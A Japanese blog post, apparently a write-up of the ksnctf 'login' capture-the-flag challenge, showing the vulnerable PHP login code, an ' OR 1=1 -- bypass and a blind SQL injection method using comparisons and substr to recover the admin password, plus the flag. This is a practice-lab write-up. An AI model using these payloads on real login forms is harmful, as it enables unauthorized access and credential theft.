 +++
draft = false
date = "2016-12-27T10:45:13+09:00"
title = "ksnctf_login"
tags = ["IT","CTF"]
thumbnail = "images/geek/ctf.jpg"

+++

# 問題

>http://ctfq.sweetduet.info:10080/~q6/

# 解法

開くとLoginページ。adminで入れとのこと。
まあSQLインジェクションだろう。

+ ID: `admin`
+ Pass: `' OR 1=1 --`

であっさり入れた。

```php
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

でもまだ終わりではない。flagはadminのパスワードらしい。
ブラインドSQLインジェクションというらしい。

出力できそうにないので総当りをしてみる。

最初はLikeで一文字ずつ試していたけど、Likeはcase insensitiveらしく小文字と大文字が区別できない。
あとで小文字か大文字かを判定してもいいけど、比較演算子で代用することにした。
つまり、`pass like 'FLAG_a%'`は`pass >= 'FLAG_a' AND pass < 'FLAG_b'`となる。

あとは一文字ずつ繰り返す。

# script

<script src="https://gist.github.com/vintersnow/c16bb90a77624d7f48adb3320b703ec3.js"></script>


# 別解

あとで調べたら、substrで解いたほうが楽そう。

```
WHERE id='' OR (SELECT length(pass) FROM user WHERE id='admin') <= length
```

で長さを調べて、

```
WHERE id='' OR substr((SELECT pass FROM users), n, 1)='a'
```

で一文字見ていく。

# flag

```
FLAG_KpWa4ji3uZk6TrPK
```

# point

**341**

# 参考

+ http://www.yoheim.net/blog.php?q=20160204
+ http://stackoverflow.com/questions/15480319/case-sensitive-and-insensitive-like-in-sqlite
+ http://www9.plala.or.jp/sgwr-t/c_sub/ascii.html 
+ http://stackoverflow.com/questions/16060899/alphabet-range-python
+ http://sekai013.hatenablog.com/entry/2015/03/26/224413

